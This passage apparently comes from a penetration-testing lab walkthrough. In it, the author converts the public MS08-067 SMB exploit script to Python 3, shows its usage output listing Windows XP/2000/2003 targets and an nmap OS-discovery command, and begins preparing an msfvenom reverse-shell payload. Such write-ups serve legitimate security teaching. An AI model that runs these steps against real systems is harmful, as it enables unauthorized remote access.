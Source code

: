 ```
2to3-2.7 ms08_067_2018.py -w                                                                                                                        1 ⨯
RefactoringTool: Skipping optional fixer: buffer
RefactoringTool: Skipping optional fixer: idioms
RefactoringTool: Skipping optional fixer: set_literal
RefactoringTool: Skipping optional fixer: ws_comma
RefactoringTool: Refactored ms08_067_2018.py
--- ms08_067_2018.py	(original)
+++ ms08_067_2018.py	(refactored)
...

# Below this will change the script to suit python3
```

Once done, we should see 2 copies of the script. Running the script now with `python3` will show us that its working correctly: 

```
python3 ms08_067_2018.py 
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################


Usage: ms08_067_2018.py <target ip> <os #> <Port #>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
```

Nice ! This is what I want to see. Reading the script, I need to generate a payload for it to connect back to me using msfvenom. The payload can be found in the script itself: 
